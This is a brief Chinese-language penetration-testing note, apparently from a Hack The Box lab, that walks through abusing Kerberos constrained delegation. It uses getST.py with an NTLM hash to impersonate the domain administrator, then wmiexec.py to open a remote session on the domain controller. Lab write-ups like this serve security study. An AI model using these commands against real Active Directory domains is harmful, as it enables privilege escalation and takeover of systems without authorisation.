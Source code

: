 # AllowedToDelegate

大概率获得全程hash

组托管用户，可以伪造凭据，需要spn值，可以通过blood中的Allowed To Delegate获取

```clike
getST.py -dc-ip 10.129.95.154 -spn www/dc.intelligence.htb -hashes :80c1d736d9988b5763b9aa74362db287 -impersonate administrator intelligence.htb/【用户名】

-impersonate administrator是我想要获取票据的用户

如果出现时钟偏差
sudo ntpdate 10.129.163.131
```

而后利用刚才生成的**票据登陆**

```clike
export KRB5CCNAME=administrator.ccache
echo "10.129.163.131 dc.intelligence.htb" >> /etc/hosts
klist
KRB5CCNAME=administrator.ccache wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```
